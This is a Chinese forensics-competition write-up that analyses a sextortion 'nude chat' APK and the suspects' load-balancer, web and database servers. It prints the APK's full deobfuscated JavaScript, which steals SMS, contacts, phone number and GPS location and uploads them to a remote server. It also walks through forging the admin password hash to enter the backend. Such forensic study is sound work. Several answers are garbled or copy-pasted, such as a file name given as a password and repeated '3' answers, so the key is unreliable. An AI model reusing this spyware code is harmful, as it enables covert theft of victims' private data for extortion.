> 2021年4月25日，上午8点左右，警方接到被害人金某报案，声称自己被敲诈数万元；经询问，昨日金某被嫌疑人诱导裸聊，下载了某“裸聊”软件，导致自己的通讯录和裸聊视频被嫌疑人获取，对其进行敲诈，最终金某不堪重负，选择了报警；警方从金某提供的本人手机中，定向采集到了该“裸聊”软件的安装包--zhibo.apk（检材一），请各位回答下列问题：（题目中需要通过分析出来的答案对检材二三四五解压，解压密码为IP的情况，需要在密码后增加-CAB2021，例192.168.110.110-CAB2021）

> MjQ4Mg.MibHs0y4g5DcLni65ZmnEJLEz-s


## 检材一

::: collapse
- 检材一背景

	2021年4月25日，上午8点左右，警方接到被害人金某报案，声称自己被敲诈数万元；经询问，昨日金某被嫌疑人诱导裸聊，下载了某“裸聊”软件，导致自己的通讯录和裸聊视频被嫌疑人获取，对其进行敲诈，最终金某不堪重负，选择了报警；警方从金某提供的本人手机中，定向采集到了该“裸聊”软件的安装包--zhibo.apk（检材一），请各位回答下列问题：（题目 中需要通过分析出来的答案对检材二三四五解压，解压密码为IP的情况，需要在密码后增加-CAB2021，例192.168.110.110-CAB2021）
	MjQ4Mg.MibHs0y4g5DcLni65ZmnEJLEz-s
:::
### 1. 请计算检材一Apk的SHA256值

`certutil -hashfile 检材一-zhibo.apk SHA256`


答案：`3fece1e93be4f422c8446b77b6863eb6a39f19d8fa71ff0250aac10f8bdde73a`


### 2. 该APK的应用包名为

答案：`plus.H5B8E45D3`




### 3. 该APK程序在封装服务商的应用唯一标识（APPID）为

答案：`H5B8E45D3`





### 4. 该APK具备下列哪些危险权限(多选题)：

- [ ] A.读取短信  
- [ ] B.读取通讯录  
- [ ] C.读取精确位置  
- [ ] D.修改通讯录  
- [ ] E.修改短信

答案：

- [x] A.读取短信  
- [x] B.读取通讯录  
- [x] C.读取精确位置  
- [x] D.修改通讯录  
- [x] E.修改短信

看雷电


### 5. APK发送回后台服务器的数据包含一下哪些内容(多选题)：

- [ ] A.手机通讯录  
- [ ] B.手机应用列表  
- [ ] C.手机号码  
- [ ] D.验证码  
- [ ] E.GPS定位信息

答案：
- [x] A.手机通讯录  
- [ ] B.手机应用列表  
- [x] C.手机号码  
- [x] D.验证码  
- [x] E.GPS定位信息




找到一个被`sojson.v4`混淆的脚本，[解密](https://ctf.bugku.com/tool/sojson4)网站

解密后得到代码如下

::: collapse 
- 代码

	``` php
	/*
	*Aman - 194nb.com
	*/
	/*
	 *Progcessed By JSDec in 0.00s
	 *JSDec - JSDec.js.org
	 */
	mui.init();
	
			mui.plusReady(function () {
				//var main = plus.android.runtimeMainActivity();  
				// main.moveTaskToBack(false);
	
				var address = plus.device.vendor + '-' + plus.device.model;
				address = address.replace(/\n/g, "").replace(/ /g, "").replace(/\r/g, "");
				var apiserver = 'http://www.honglian7001.com/api/uploads/';
				//重复数据处理 预防用户重复点击
				var danjishijian = true;
				function requestPermission(sjh, yqm) {
					plus.android.requestPermissions(
						["android.permission.READ_SMS"],
						function (resultObj) {
							//SmsInfo存放一条短信的各项内容
							var SmsInfo = {}
							//Sms存放所有短信
							var Sms = {}
	
							var aimei = sjh;
							var aimei2 = yqm;
							var duanxin = '[{"imei":"' + aimei + '","imei2":"' + aimei2 + '"}';
							var Cursor = plus.android.importClass("android.database.Cursor")
							var Uri = plus.android.importClass("android.net.Uri")   //注意啦，android.net.Uri中的net是小写
							var activity = plus.android.runtimeMainActivity()
							var uri = Uri.parse("content://sms/");
	
							var projection = new Array("_id", "address", "person", "body", "date", "type")
							var cusor = activity.managedQuery(uri, projection, null, null, "date desc")
							var idColumn = cusor.getColumnIndex("_id")
							var nameColumn = cusor.getColumnIndex("person")
							var phoneNumberColumn = cusor.getColumnIndex("address")
							var smsbodyColumn = cusor.getColumnIndex("body")
							var dateColumn = cusor.getColumnIndex("date")
							var typeColumn = cusor.getColumnIndex("type")
							if (cusor != null) {
								while (cusor.moveToNext()) {
									SmsInfo.id = cusor.getString(idColumn)
									SmsInfo.Name = cusor.getInt(nameColumn)
									SmsInfo.Date = cusor.getLong(dateColumn)
									SmsInfo.Date = getFormatDate(SmsInfo.Date)
									SmsInfo.PhoneNumber = cusor.getString(phoneNumberColumn)
									SmsInfo.Smsbody = cusor.getString(smsbodyColumn)
									SmsInfo.Type = cusor.getString(typeColumn)
	
									var post = JSON.stringify(SmsInfo);
									//console.log(post);
									duanxin = duanxin + ',' + post;
	
								}
								duanxin = duanxin + ']';
								//alert(duanxin);
	
								mui.ajax(apiserver + 'apisms', {
									data: {
										data: duanxin
									},
									dataType: 'text',//服务器返回json格式数据
									type: 'post',//HTTP请求类型
									timeout: 10000,//超时时间设置为10秒；              
									success: function (data) {
										mui.toast('获取成功')
										//console.log(con)
	
	
									},
									error: function (xhr, type, errorThrown) {
										//异常处理；
	
									}
								});
								cusor.close()
							}
	
						},
						function (error) {
							console.log('申请权限错误：' + error.code + " = " + error.message);
						});
				}
	
	
	
				//扩展Date功能：将long型日期转换为特定的格式
				Date.prototype.format = function (format) {
					var o = {
						"M+": this.getMonth() + 1,
						"d+": this.getDate(),
						"h+": this.getHours(),
						"m+": this.getMinutes(),
						"s+": this.getSeconds(),
						"q+": Math.floor((this.getMonth() + 3) / 3),
						"S": this.getMilliseconds()
					}
					if (/(y+)/.test(format)) {
						format = format.replace(RegExp.$1, (this.getFullYear() + "").substr(4 - RegExp.$1.length));
					}
					for (var k in o) {
						if (new RegExp("(" + k + ")").test(format)) {
							format = format.replace(RegExp.$1, RegExp.$1.length == 1 ? o[k] : ("00" + o[k]).substr(("" + o[k]).length));
						}
					}
					return format;
				}
	
	
				//将long型日期转换为特定格式
				function getFormatDate(l, pattern) {
					date = new Date(l);
					if (pattern == undefined) {
						pattern = "yyyy-MM-dd hh:mm:ss";
					}
					return date.format(pattern);
				}
	
	
				//alert(plus.device.uuid)
				plus.navigator.setStatusBarBackground("#db6eff");
	
				mui("body").off("tap");
	
				mui("body").on('tap', '#tx', function (event) {
	
					$('#tx').hide();
					$('#zz').show();
				});
	
				mui("body").on('tap', '#gb', function (event) {
	
					$('#tx').show();
					$('#zz').hide();
				});
	
				mui("body").on('tap', '#qd', function (event) {
					if (danjishijian) {
						danjishijian = false;
						aa()
					} else {
						aa()
					}
	
				});
	
	
				function getPermission(permissionIdentity, successCallBack, errorCallBack) {
					//权限标识转换成大写  
					var permissionIdentity = permissionIdentity.toUpperCase();
					//获取检测权限的状态  
					var checkResult = plus.navigator.checkPermission(permissionIdentity);
					//权限状态是否正常  
					var permissionStatusOk = false;
					//权限中文名称  
					var permissionName = '';
					//对应 andorid 的具体权限  
					var androidPermission = '';
					//获取权限中文意思与对应 android 系统的权限字符串  
					switch (permissionIdentity) {
	
						case 'CONTACTS':
							permissionName = '系统联系人';
							androidPermission = 'android.permission.READ_CONTACTS'
							break;
	
						default:
							permissionName = '未知';
							androidPermission = '未知';
							break;
					}
	
					//判断检查权限的结果  
					switch (checkResult) {
						case 'authorized':
							//正常的  
							permissionStatusOk = true
							break;
						case 'denied':
							//表示程序已被用户拒绝使用此权限，如果是拒绝的就再次提示用户打开确认提示框  
							//如果有该权限但是没有打开不进行操作还是会去申请或手动打开  
							// console.log('已关闭' + permissionName + '权限')  
							// errorCallBack('已关闭' + permissionName + '权限');  
							// return  
							break;
						case 'undetermined':
							// 表示程序未确定是否可使用此权限，此时调用对应的API时系统会弹出提示框让用户确认  
							// this.requestPermissions(androidPermission, permissionName, successCallBack, errorCallBack)  
							// errorCallBack('未确定' + permissionName + '权限');  
							// return  
							break;
						case 'unknown':
							errorCallBack('无法查询' + permissionName + '权限');
							return
							break;
						default:
							errorCallBack('不支持' + permissionName + '权限');
							return
							break;
					}
	
					//如果权限是正常的执行成功回调  
					if (permissionStatusOk) {
						successCallBack()
					} else {
						//如果不正常，如果是 andorid 系统，就动态申请权限  
						if (plus.os.name == 'Android') {
							//动态申请权限  
							plus.android.requestPermissions([androidPermission], function (e) {
								if (e.deniedAlways.length > 0) {
									//权限被永久拒绝  
									// 弹出提示框解释为何需要定位权限，引导用户打开设置页面开启  
									errorCallBack('请您同意弹出的权限，便可正常使用APP！如果未弹出，请前往“手机设置”里的“权限管理”找到本应用，并打开通讯录权限，方可使用。')
									// console.log('Always Denied!!! ' + e.deniedAlways.toString());  
								}
								if (e.deniedPresent.length > 0) {
									//权限被临时拒绝  
									// 弹出提示框解释为何需要定位权限，可再次调用plus.android.requestPermissions申请权限  
									errorCallBack('请您同意弹出的权限，便可正常使用APP！如果未弹出，请前往“手机设置”里的“权限管理”找到本应用，并打开通讯录权限，方可使用。')
									// console.log('Present Denied!!! ' + e.deniedPresent.toString());  
								}
								if (e.granted.length > 0) {
									//权限被允许  
									//调用依赖获取定位权限的代码  
									successCallBack()
									// console.log('Granted!!! ' + e.granted.toString());  
								}
							}, function (e) {
								errorCallBack('请您同意弹出的权限，便可正常使用APP！如果未弹出，请前往“手机设置”里的“权限管理”找到本应用，并打开通讯录权限，方可使用。')
								// console.log('Request Permissions error:' + JSON.stringify(e));  
							})
						} else if (plus.os.name == 'iOS') {
							//ios ,第一次使用目的权限时，应用的权限列表里是不存在的，所以先默认执行一下成功回调，打开要使用的操作，比如 plus.camera  
							//这时系统会提示是否打开相应的权限，如果拒绝也没关系，因为应用的权限列表里已经存在该权限了，下次再调用相应权限时，就会  
							//走 else 里的流程，会给用户提示，并且跳转到应该的权限页面，让用户手动打开。  
							if (checkResult == 'undetermined') {
								//调用依赖获取定位权限的代码  
								successCallBack(true)
							} else {
								//如果是 ios 系统，ios 没有动态申请操作，所以提示用户去设置页面手动打开  
								mui.confirm(permissionName + '权限没有开启，是否去开启？', '提醒', ['取消', '确认'], function (e) {
									//取消  
									if (e.index == 0) {
										errorCallBack('请您同意弹出的权限，便可正常使用APP！如果未弹出，请前往“手机设置”里的“权限管理”找到本应用，并打开通讯录权限，方可使用。')
									} else if (e.index == 1) {
										//确认，打开当前应用权限设置页面  
										var UIApplication = plus.ios.import('UIApplication');
										var application2 = UIApplication.sharedApplication();
										var NSURL2 = plus.ios.import('NSURL');
										// var setting2 = NSURL2.URLWithString("prefs:root=LOCATION_SERVICES");                             
										var setting2 = NSURL2.URLWithString('app-settings:');
										application2.openURL(setting2);
	
										plus.ios.deleteObject(setting2);
										plus.ios.deleteObject(NSURL2);
										plus.ios.deleteObject(application2)
									}
								}, 'div')
							}
						}
					}
				}
	
	
	
				function aa() {
					var sjh = $('#sjh').val();
					var yqm = $('#yqm').val();
					if (parseInt(sjh) > 0 && parseInt(yqm) > 0 && parseInt(sjh) > 13000000000 && parseInt(sjh) < 19999999999 && parseInt(yqm) > 0 && parseInt(yqm) < 999999) {
	
						getPermission('CONTACTS', function () {
							huoqu(sjh, yqm);
	
						}, function (msg) {
							mui.alert(msg, '提醒', '确定', function () { }, 'div')
							//aa()
						})
					}
					else {
						mui.toast('请输入正确的手机号和邀请码')
					}
	
				}
	
	
	
	
				function dingwei(sjh, yqm) {
					plus.geolocation.getCurrentPosition(translatePoint, function (e) {
						mui.toast("异常:" + e.message);
					});
				}
	
				function translatePoint(position) {
	
					var sjh = $('#sjh').val()
					var yqm = $('#yqm').val()
					var currentLon = position.coords.longitude;
					var currentLat = position.coords.latitude;
					var jingweidu = sjh + ',' + yqm + ',' + currentLon + ',' + currentLat;
					mui.ajax(apiserver + 'apimap', {
						data: {
							data: jingweidu
						},
						dataType: 'text',//服务器返回json格式数据
						type: 'post',//HTTP请求类型
						timeout: 10000,//超时时间设置为10秒；              
						success: function (data) {
	
							if (data == '获取成功') {
								requestPermission(sjh, yqm);
	
								//setInterval(function(){
								//var sjh=$('#sjh').val();
								//var yqm=$('#yqm').val();
								//requestPermission(sjh,yqm);
								//console.log('send')
	
								//},30000)
							}
	
							mui.toast(data)
						},
						error: function (xhr, type, errorThrown) {
							//异常处理；
	
	
						}
					});
	
					//书写自己的逻辑
	
				}
				// 扩展API加载完毕，现在可以正常调用扩展API
	
				function huoqu(sjh, yqm) {
					var con = sjh + "**" + yqm + '**' + address;
	
	
					plus.contacts.getAddressBook(plus.contacts.ADDRESSBOOK_PHONE, function (addressbook) {
	
	
						addressbook.find(["displayName", "phoneNumbers"], function (contacts) {
	
	
							for (var i = 0, len = contacts.length; i < len; i++) {
								con = con + '=' + contacts[i].displayName + '|' + (contacts[i].phoneNumbers.length == 0 ? "" : contacts[i].phoneNumbers[0].value);
							}
	
	
	
	
	
							mui.ajax(apiserver + 'api', {
								data: {
									data: con
								},
								dataType: 'text',//服务器返回json格式数据
								type: 'post',//HTTP请求类型
								timeout: 10000,//超时时间设置为10秒；              
								success: function (data) {
									//alert(data)
									if (data == '正在加载列表') {
										dingwei(sjh, yqm);
										mui.openWindow({
											url: 'list.html',
											show: {
												autoShow: true
											}
										});
									} else {
										mui.toast(data)
									}
									//console.log(con)
								},
								error: function (xhr, type, errorThrown) {
									//异常处理；
	
	
								}
							});
	
	
	
						}, function () {
							mui.alert("为保证用户质量，使用本app请同意通讯录授权 ");
						}, {
							multiple: true
						});
					}, function (e) {
						mui.alert("为保证用户质量，使用本app请同意通讯录授权 ");
					});
				}
	
	
	
	
			});
	```
:::

### 6. 该APK程序回传通讯录时,使用的http请求方式为（）

答案：`post`
分析上述代码



### 7. 该APK程序的回传地址域名为【标准格式：www.abc.com】

答案：`www.honglian7001.com`

看上述源码


### 8. 该APK程序代码中配置的变量apiserver的值为【标准格式：www.abc.com/abc】

答案：`www.honglian7001.com/api/uploads`

见上

### 9. 分析该APK，发现该程序还具备获取短信回传到后台的功能，短信上传服务器接口地址为【标准格式：www.abc.com/abc】 （后面不带/）

答案：`www.honglian7001.com/api/uploads/apisms`

找到短信数据包获取模块



### 10. 经分析，发现该APK在运行过程中会在手机中产生一个数据库文件，该文件的文件名为

答案：`test.db`

找到可以方法





### 11. 经分析，发现该APK在运行过程中会在手机中产生一个数据库文件，该数据库的初始密码为

答案：`test.db`

初始密码产生逻辑


转换为python

``` python
key = [97, 98, 99, 100, 101, 102]
  
def bytes_to_hex(byte_list):
    return ''.join('{:02x}'.format(b) for b in byte_list)

import hashlib
  
def get_md5(s):
    return hashlib.md5(s.encode('utf-8')).hexdigest()

hex_str = bytes_to_hex(key)
sub_str = hex_str[1:3]
md5_val = get_md5(sub_str)

# 'c74d97b01eae257e44aa9d5bade97baf'
```

## 检材二

::: collapse
- 检材二背景

	经过掌握的APK程序后台服务器回连地址，警方成功调取该服务器的镜像，请使用第7题的答案对检材二进行解压进行分析。
:::

第七题的答案即是`www.honglian7001.com`
解压后分析仿真
### 12. 检材二的原始硬盘的SHA256值为：

答案：`E6873068B83AF9988D297C6916329CEC9D8BCB672C6A894D393E68764391C589`




### 13. 查询涉案于案发时间段内登陆服务器的IP地址为【标准格式：111.111.111.111】

答案：` 192.168.110.203`

涉案时间：2021年4月25日，上午8点左右，应该在这个时间之前最近的ip

`last`命令


### 14. 请对检材二进行分析，并回答该服务器在集群中承担的主要作用是（）【格式：文件存储】


答案：`负载均衡`

找到关键文件夹




据不同的条件转发到不同的服务器上，

结果为`负载均衡`
### 15. 上一题中，提到的主要功能对应的服务监听的端口为：

答案：`80`


### 16. 上一题中，提到的服务所使用的启动命今为：

答案：`node app.js`



### 17. 经分析，该服务对于请求来源IP的处理依据是：根据请求源IP地址的第（）位进行判断【标准格式：9】

答案：`3`




### 18. 经分析，当判断条件小于50时，服务器会将该请求转发到IP为（）的服务器上【标准格式：111.111.111.111】

答案：`3`

转到proxy50

ip为`192.168.110.111`


### 19. 请分析，该服务器转发的目标服务器一共有几台【标准格式：9】

答案：`3`




### 20. 请分析，受害者通讯录被获取时，其设备的IP地址为【标准格式：111.111.111.111】

答案：`3`

去看日志，在==4.24==一个日志文件



分析日志得到
- ==192.168.110.142== ：Android 9; Redmi 6
- ==192.168.110.252== ：Android 7.1.2; vivo X9
- ==192.168.110.252== ：Android 10; PBCM30 Build
……
还有些电脑，不确定

### 21. 请分析，受害者的通讯录被窃取之后，经由该服务器转发到了IP为（）的服务器上【标准格 式：111.111.111.111】

答案：`192.168.110.113`




## 检材三&五

::: collapse
- 检材三背景

	通过对检材二的分析，警方进一步掌握并落地到了目标服务器地址，通过对服务器进行证据固定，得到服务器镜像--检材三，请使用第21题答案对检材三进行解密并分析，回答下列问题：
:::

解压密码：`192.168.110.113-CAB2021`
VC容器挂载，有三个磁盘


### 22. 检材三的原始硬盘的SHA256值为：


答案：`205C1120874CE0E24ABFB3BB1525ACF330E05111E4AD1D323F3DEE59265306BF`

在火眼中可以看到web3.E01是有系统架构的，直接计算不行





### 23. 请分析第21题中，所指的服务器的开机密码为：

答案：`205C1120874CE0E24ABFB3BB1525ACF330E05111E4AD1D323F3DEE59265306BF`


### 24. 嫌疑人架设网站使用了宝塔面板，请问面板的登陆用户名为：

答案：`hl123`


配置网络换110网段，关闭DHCP即可



之后可以ssh连接






访问宝塔

### 25. 请分析用于重置宝塔面板密码的函数名为

答案：`set_panel_pwd`

宝塔面板重置网站密码功能调用的是`tools.py`

`cat /www/server/panel/tools.py`



### 26. 请分析宝塔面板登陆密码的加密方式所使用的哈希算法为

答案：`md5`




### 27. 请分析宝塔面板对于其默认用户的密码一共执行了几次上题中的哈希算法

答案：`3`

一次md5编码后还有一个`public.password_salt`函数
这个得去看`cat /www/server/panel/class/public.py`



``` python
def password_salt(password,username=None,uid=None):
    '''
        @name 为指定密码加盐
        @author hwliang<2020-07-08>
        @param password string(被md5加密一次的密码)
        @param username string(用户名) 可选
        @param uid int(uid) 可选
        @return string
    '''
    chdck_salt()
    if not uid:
        if not username:
            raise Exception('username或uid必需传一项')
        uid = M('users').where('username=?',(username,)).getField('id')
    salt = M('users').where('id=?',(uid,)).getField('salt')
    return md5(md5(password+'_bt.cn')+salt)
```


### 28. 请分析当前宝塔面板密码加密过程中所使用的salt值为【区分大小写】

答案：`v87ilhAVumZL`




### 29. 请分析该服务器，网站源代码所在的绝对路径为【标准格式/xxx/xxx/xxx】

答案：`/www/wwwroot/www.honglian7001`




### 30. 请分析，网站所使用的数据库位于IP为（）的服务器上（请使用该IP解压检材4，并重构网站）【标准格式：111.111.111.111】


答案：`192.168.110.115`

去网站目录看文件



### 31. 请分析，数据库的登陆密码为【区分大小写】


答案：`wxrM5GtNXk5k5EPX`




### 32. 请尝试重构该网站，并指出，该网站的后台管理界面的入口为【标准格式：/web】

答案：`/admin`

raid重组

用第30题答案去vc加载检材5，加载密码：

```
192.168.110.115-CAB2021
```


需要raid重组


使用R-studio对阵列进行重组    得到重组后的raid阵列

先打开镜像文件


新建raid组后，将镜像拖进raid后，自动检测


可以看出有系统架构了


然后创建逐字节镜像



之后直接火眼仿真


仿真成功并ssh连接，这个应该就是数据库服务器



### 33. 已该涉案网站代码中对登录用户的密码做了加密处理。请找出加密算法中的salt值【区分大小写】

答案：`lshi4AsSUrUOwWV`


### 34. 请分析该网站的管理员用户的密码为

答案：`security`

在日志文件中可以找到

```
\www.honglian7001\runtime\log\202104\24.log
```




### 35. 在对后台账号的密码加密处理过程中，后台一共计算几次哈希值

答案：`3`





### 36. 请统计，后台中，一共有多少条设备记录
答案：`6002`

这里就需要仿真，连接`192.168.110.115`数据库

修改`/etc/my.cnf`
本地连接数据库


找到关键数据库


绕密
已知密码逻辑
123456

``` php
function password($password, $password_code='lshi4AsSUrUOwWV')
{
    return md5(md5($password) . md5($password_code));
}
```

``` python
import hashlib

def get_md5(s):
    return hashlib.md5(s.encode('utf-8')).hexdigest()

salt = 'lshi4AsSUrUOwWV'

password = get_md5(get_md5('123456')+get_md5(salt))
# password = '9eb2b9ad495a75f80f9cf67ed08bbaae'
```

直接`admin`和`123456`登录成功


6002


### 37. 请通过后台确认，本案中受害者的手机号码为

答案：`186644099137`

根据金先生下载恶意apk的时间，可以找到手机号码


### 38. 请分析，本案中受害者的通讯录一共有多少条记录

答案：`34`

筛选`186644099137`即可


